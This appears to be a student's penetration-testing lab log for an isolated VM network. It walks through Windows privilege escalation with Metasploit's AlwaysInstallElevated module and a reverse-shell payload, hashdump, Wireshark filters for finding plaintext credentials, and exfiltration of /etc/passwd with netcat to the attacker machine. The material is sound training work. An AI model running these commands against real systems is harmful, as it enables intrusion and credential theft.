

# 🔍 Post-Exploitation & Evidence Collection Logs — Week 3

> **Attacker:** Kali Linux — 192.168.56.101
> **Windows Target:** Windows 10 VM — 192.168.56.105
> **Linux Target:** Metasploitable2 — 192.168.56.104

---

## Lab 4 — Post-Exploitation & Evidence Collection

### Step 1 — Privilege Escalation on Windows 10 (AlwaysInstallElevated)

**AlwaysInstallElevated** is a Windows policy misconfiguration where MSI packages are allowed to run with SYSTEM-level privileges regardless of the installing user's privilege level.

#### Verify the Misconfiguration
```bash
# First gain initial access to Windows 10 VM (192.168.56.105)
# Then check registry keys that indicate AlwaysInstallElevated is enabled

# Inside Windows shell / Meterpreter:
meterpreter > reg query -k HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer -v AlwaysInstallElevated
meterpreter > reg query -k HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer -v AlwaysInstallElevated

# Both must return 0x1 (enabled) for the exploit to work
# AlwaysInstallElevated    REG_DWORD    0x1
```

#### Exploit via Metasploit
```bash
# Step 1 — On Kali, start msfconsole
msfconsole

# Step 2 — Use the exploit module
msf6 > use exploit/windows/local/always_install_elevated

# Step 3 — Set your existing session ID
msf6 > sessions -l                     # list sessions, note ID
msf6 > set SESSION 1                   # set to your Windows session

# Step 4 — Set payload
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 192.168.56.101
msf6 > set LPORT 5555

# Step 5 — Run
msf6 > run

# Step 6 — Verify SYSTEM privileges
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
meterpreter > getsystem
```


#### Log the Session

| Session ID | Type | Target IP | User | Privilege Level |
|------------|------|-----------|------|----------------|
| 1 | Meterpreter (x64) | 192.168.56.105 | NT AUTHORITY\SYSTEM | SYSTEM |

---

### Step 2 — Traffic Capture with Wireshark

```bash
# On Kali — start Wireshark capturing on the lab network interface
wireshark &

# Or CLI with tshark
tshark -i eth0 -w /tmp/collected/http_traffic.pcap \
  -f "host 192.168.56.104 and port 80"

# Capture for 60 seconds then stop
tshark -i eth0 -w /tmp/collected/http_traffic.pcap \
  -f "host 192.168.56.104" -a duration:60
```

**In Wireshark GUI:**
1. Select interface: `eth0` (or your lab adapter)
2. Filter: `ip.addr == 192.168.56.104 && http`
3. Start capture → browse DVWA → stop capture
4. File → Export Specified Packets → Save as `http_traffic.pcap`

**Useful Wireshark Filters:**
```
# HTTP traffic only
http

# Traffic to/from Metasploitable
ip.addr == 192.168.56.104

# Look for POST requests (login credentials)
http.request.method == "POST"

# Find cookies in traffic
http.cookie
```


---

### Step 3 — File Collection via Meterpreter

```
# In Meterpreter session on Windows 10 (192.168.56.105)
meterpreter > getuid
# Server username: DESKTOP-RK3V4I1\TinyCube

meterpreter > pwd
meterpreter > ls

# Escalate to SYSTEM first
meterpreter > getsystem

# Dump password hashes
meterpreter > hashdump

# Download hosts file
meterpreter > download "C:/Windows/System32/drivers/etc/hosts" /tmp/collected/hosts.txt


# Background session
meterpreter > background

# On Kali — collect /etc/passwd from Metasploitable2 via netcat
# Terminal 1 on Kali — receive file
nc -lvp 9999 > /tmp/collected/passwd.txt

# On Metasploitable2 shell (192.168.56.104)
# Login: msfadmin:msfadmin then run:
cat /etc/passwd | nc 192.168.56.101 9999
```
---

### Step 4 — Hash All Collected Evidence

```bash
# Create collection directory
mkdir -p /tmp/collected

# Hash each file
sha256sum /tmp/collected/passwd.txt      > /tmp/collected/hashes.txt
sha256sum /tmp/collected/hosts.txt      >> /tmp/collected/hashes.txt

# View all hashes
cat /tmp/collected/hashes.txt
```



---

### Evidence Chain of Custody

| Item | Description | Collected By |
|------|-------------|-------------|------|---------------------|
| http_traffic.pcap | Wireshark HTTP traffic capture | CyArt VAPT Analyst | 
| passwd.txt | /etc/passwd from Metasploitable2 | CyArt VAPT Analyst | 
| hosts.txt | Windows hosts file from Win10 VM | CyArt VAPT Analyst | 
| sqlmap_dump.txt | DVWA database dump | CyArt VAPT Analyst | 

---

### Evidence Collection Summary

> Post-exploitation on Windows 10 VM (`192.168.56.105`) confirmed privilege escalation to `NT AUTHORITY\SYSTEM` via the `AlwaysInstallElevated` misconfiguration using Metasploit. Wireshark captured HTTP traffic revealing plaintext credentials in POST requests. Sensitive files were collected from both targets and SHA256-hashed to maintain forensic chain of custody for all evidence items.

---
